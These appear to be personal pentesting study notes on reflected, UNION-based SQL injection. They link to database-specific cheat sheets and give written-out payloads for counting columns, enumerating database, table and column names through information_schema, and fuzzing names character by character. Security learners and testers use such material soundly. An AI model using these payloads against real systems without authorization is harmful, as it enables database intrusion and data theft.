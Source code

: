 	- EACH DATABASE TYPE REQUIRED DIFFERENT THINGS (STATEMENTS)
		- Oracle          ---> [Oracle Cheat Sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet)
		- Microsoft     ---> 
		- PostgreSQL ---> [Postgre Cheat Sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet)
		- MySQL         ---> [MySQL Cheat Sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
		  ...


## <u>Steps SQL Injection (Reflected)</u>

- Steps for SQL Injection (Database)
	- Find the number of columns      
	- Find the name of those Database 
	- Find the table                               
	- Find the columns names
	- Find Database Value
	- Reformat Value (easier to read)

- Reminder
	- Add a + between space if used in URL
	- Number of NULL = Number of Columns
	- UNION query are only for Reflected injection (Blind Injection --> Dont see response)

- Find Number of Columns 
```
' OR 1=1 ORDER BY 1;-- -          ---> Change the 1 to 2,3,4,5.. (Request respond a 500 error mean that the number before was the amount of columns in DB)

or

' UNION SELECT NULL,NULL...--     ---> Number of null before error = number of columns
```

- Find the Name of Database
```
' UNION SELECT schema_name, NULL, NULL... FROM information_schema.schemata;-- -  
        ---> Add the NULL to equal the number of columns found in previous task

'+UNION+SELECT+NULL,'FUZZ%',...--       ---> Fuzz parameter with a-z% to find the name of the string (Once found 1 letter, XFUZZ% and continue...)
```
	- information_schema.schemata     ---> Depend on the type of DB

- Find the Table Name
```
' UNION SELECT table_name, NULL,... FROM information_schema.tables--

#Find the Table Name inside Database
' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE table_schema = 'DATABASE_FOUND_PREVIOUS_TASK' --
```
	- information_schema.columns      ---> Depend on the type of DB
	- table_name                      ---> Depend on the type of DB
	- table_schema                    ---> Depend on the type of DB
